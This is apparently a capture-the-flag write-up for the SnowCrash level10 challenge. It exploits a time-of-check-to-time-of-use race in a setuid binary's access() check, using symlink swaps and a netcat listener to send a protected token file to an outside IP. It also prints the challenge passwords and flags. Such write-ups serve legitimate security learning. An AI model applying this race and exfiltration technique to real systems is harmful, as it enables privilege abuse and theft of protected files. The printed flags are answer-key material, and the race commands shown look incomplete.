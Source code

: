 # Solve Level10
pass : s5cAJpM8ev6XHw998pRWG728z

## Description
- home
    - -rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10*
    - -rw-------  1 flag10  flag10     26 Mar  5  2016 token

### level10
- The binary takes 2 args, a file to send and an host
- He create a connection on port 6969 and send the file if we have perms
    - we can use nc to create a server on our machine or on snowcrash ```nc -l -p 6969``` | ```nc -l 6969```
    - then ```./level10 file/to/send my_machine_ip```
      - it works, now we must find a way to send token ; ln does not work
      - we use decompiler and see the use of access ==> which can be exploit
        - cf TOCTOU [source][https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use]

## Solution
```bash
cd /tmp
echo pouet > pouet
ln -fs pouet link
ln -fs ~/token lel & ~/level10 lel 10.0.2.15
```

- flag10 : woupa2yuojeeaaed06riuj63c
- level11 : feulo4b72j7edeahuete3no7c


## Resolve problem
